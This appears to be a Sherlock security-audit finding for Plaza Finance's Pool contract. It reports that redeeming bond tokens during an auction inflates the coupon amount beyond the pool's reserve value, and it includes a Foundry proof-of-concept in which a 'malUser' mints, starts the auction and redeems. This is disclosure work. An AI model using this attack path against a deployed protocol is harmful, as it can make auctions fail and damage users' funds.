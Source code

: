 Fluffy Berry Gibbon

High

# Malicious user will drastically increase coupon amount to distribute

### Summary

Allowing users to redeem their tokens during an auction will cause an imbalance between the value of the total coupon amount to distribute and the actual value of eth related assets in the pool, making it highly unlikely that the target coupon amount will be hit during the auction. This is because it will be more expensive for buyers to buy the reserveToken from the auction than the regular market. A malicious user can take it to the extreme using flashloans.

### Root Cause

The choice to allow reserve token redemption during an auction is a mistake as it will lead to an imbalance in value between the reserve assets for sale and the minimum asking price in coupon tokens (couponTokensToDistribute).
[Pool::startAuction](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L549)


### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

The auction for the pool period will fail as the target coupon amount will not be hit.

### PoC

```solidity
//setUp of reserve token(weth) to bondToken 2:1. In this case, 4 weth to 2 bondToken
.
.
.
function testValueImbalance() public {
        address malUser = makeAddr("malUser");
        address bidder = makeAddr("bidder");
        address user = makeAddr("user");
        uint256 malUserInitialWethBalance = 100000 ether;

        //user deposits 1 weth
        vm.startPrank(user);
        weth.mint(user, 1 ether);
        weth.approve(address(pool), 1 ether);
        pool.create(Pool.TokenType.BOND, 1 ether, 1);
        vm.stopPrank();        

        //move time to when auction can start
        vm.warp(100);
        //malUser calls Pool.create() with a large amount of weth to get many bond tokens
        vm.startPrank(malUser);
        weth.mint(malUser, malUserInitialWethBalance);
        weth.approve(address(pool), malUserInitialWethBalance);
        Pool(pool).create(Pool.TokenType.BOND, malUserInitialWethBalance, 1);
        console.log("Bond Token balance of malUser", bToken.balanceOf(malUser));
        //malUser starts auction
        uint256 couponAmountToDistribute = pool.startAuction(); //modified function to return couponAmountToDistribute
        //malUser immediately redeems tokens
        bToken.approve(address(pool), bToken.balanceOf(malUser));
        Pool(pool).redeem(Pool.TokenType.BOND, bToken.balanceOf(malUser), 1);
        vm.stopPrank();

        //malUser shares after starting the auction
        uint256 malUserShares = bToken.getIndexedUserAmount(malUser, bToken.balanceOf(malUser), 0).normalizeAmount(
            bToken.decimals(), usdc.decimals()
        );

        address USD = address(0);
        uint256 wethPrice = pool.getOraclePrice(address(weth), USD);

        console.log("Coupon amount to distribute: ", couponAmountToDistribute);
        console.log("Actual amount of eth in the pool: ", weth.balanceOf(address(pool)));
        console.log("Usd value of coupon amount to distribute: ", couponAmountToDistribute / 1e6);
        console.log("Usd value of amount of eth in the pool: ", (weth.balanceOf(address(pool)) * wethPrice) / 10 ** (weth.decimals() + pool.getOracleDecimals(address(weth), USD)));
        console.log("MalUser shares: ", malUserShares);
    }

```

### Mitigation

_No response_